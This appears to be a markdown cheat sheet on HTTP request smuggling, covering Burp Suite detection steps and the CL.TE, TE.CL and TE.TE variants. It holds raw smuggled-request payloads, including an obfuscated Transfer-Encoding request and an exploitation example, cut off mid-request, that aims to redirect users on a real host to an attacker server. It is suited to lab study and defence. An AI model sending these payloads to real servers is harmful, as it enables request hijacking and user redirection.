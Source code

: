 # Detection
- Use _HTTP Request Smuggler_ extension of BurpSuite to discover vulnerability.
  - Always change protocol from `HTTP/2` to `HTTP/1` in Burp Inspector.
  - Right-click on the request  →  Extensions  →  HTTP Request Smuggler  →  Smuggle probe.
  - Check the running status in **Logger**.
  - Check result in Target  →  Site map
- Send the vulnerable request to BurpSuite Repeater.
  - Always check value of `Content-Length` header. (We can seet it to be auto-correct from Repeater  →  Content-Length)
#### CL.TE 
- The front-end server uses the `Content-Length` header and the back-end server uses the `Transfer-Encoding` header.
  ```html
  POST / HTTP/1.1
  Host: YOUR-LAB-ID.web-security-academy.net
  Connection: keep-alive
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 6
  Transfer-Encoding: chunked

  0

  G
  ```    
#### TE.CL
- The front-end server uses the `Transfer-Encoding` header and the back-end server uses the `Content-Length` header.
#### TE.TE
- The front-end and back-end servers both support the `Transfer-Encoding` header, but one of the servers can be induced not to process it by obfuscating the header in some way. (Obfuscating the TE header)
  ```bash
  POST /search HTTP/1.1
  Host: example.com
  Content-Length: 33
  Transfer-Encoding: ;chunked

  0

  GET /img/i.jpg HTTP/1.1
  X:X
  ```

# Exploitation
#### 1. Discover a redirect path (by application recon like fuzz), then try adding `Host` header.
  - More details in [this](https://medium.com/@StealthyBugs/http-request-smuggling-on-business-apple-com-and-others-2c43e81bcc52) writeup.
  - In Apache, `/static/docs` will be redirected to value of `Host` header. (`Host` value will be put in `Location` header)
  - Redirect users to attacker server:
    ```bash
    POST / HTTP/1.1
    Transfer-Encoding
     : chunked
    Host: business.apple.com
    Content-Length: 67
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
